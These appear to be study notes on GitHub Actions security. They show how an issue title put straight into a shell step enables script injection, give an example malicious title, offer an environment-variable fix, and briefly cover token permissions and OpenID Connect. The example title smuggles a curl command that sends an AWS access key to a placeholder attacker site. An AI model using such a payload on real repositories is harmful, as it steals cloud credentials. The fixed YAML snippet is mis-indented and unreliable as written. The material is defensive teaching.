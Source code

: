 # Security and Permissions

### Injection:

```yaml
 - name: Assign label
   run: |
      issue_title="${{ github.event.issue.title }}"
      if [[ "$issue_title" == *"bug"* ]]; then
      echo "Issue is about a bug!"
      else
      echo "Issue is not about a bug"
      fi
```


This code is vulnerable to script injection.
Formally, a malicious agent could do something like this:

`a";curl http;//my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`

and gain access to sensitive data, like the aws_access_key_id, which 
generally is stored in a repository secret.

The first way that comes to mind to avoid this 
situation is using a github actions, because the injection would never reach a shell.

If you must use your own comand is better to use an environment variable to store
your title.

```yaml
- name: Assign label
    env: 
      TITLE: ${{ github.event.issue.title }}
        run: |
          if [[ "$TITLE" == *"bug"* ]]; then
          echo "Issue is about a bug!"
          else
          echo "Issue is not about a bug"
          fi
```

## Permissions

Permissions are set at job level and they define the scopo
of the GITHUB_TOKEN

## Third-party permissions

OpenID Connect Approach 
<a href="https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-amazon-web-services">Docs: applied to AWS</a>